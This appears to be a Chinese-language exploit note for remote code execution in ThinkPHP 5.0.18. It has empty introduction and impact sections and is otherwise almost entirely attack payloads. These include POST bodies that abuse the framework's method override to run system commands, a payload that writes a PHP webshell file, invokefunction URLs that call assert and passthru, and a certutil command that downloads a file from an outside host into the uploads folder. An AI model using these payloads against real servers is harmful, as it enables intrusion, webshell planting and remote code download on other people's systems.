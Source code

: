 # Thinkphp 5.0.18

> 原文：[https://www.zhihuifly.com/t/topic/3153](https://www.zhihuifly.com/t/topic/3153)

# Thinkphp 5.0.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、windows

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1 
```

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo() 
```

### 2、使用certutil

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php 
```

由于根目录没写权限，所以写到uploads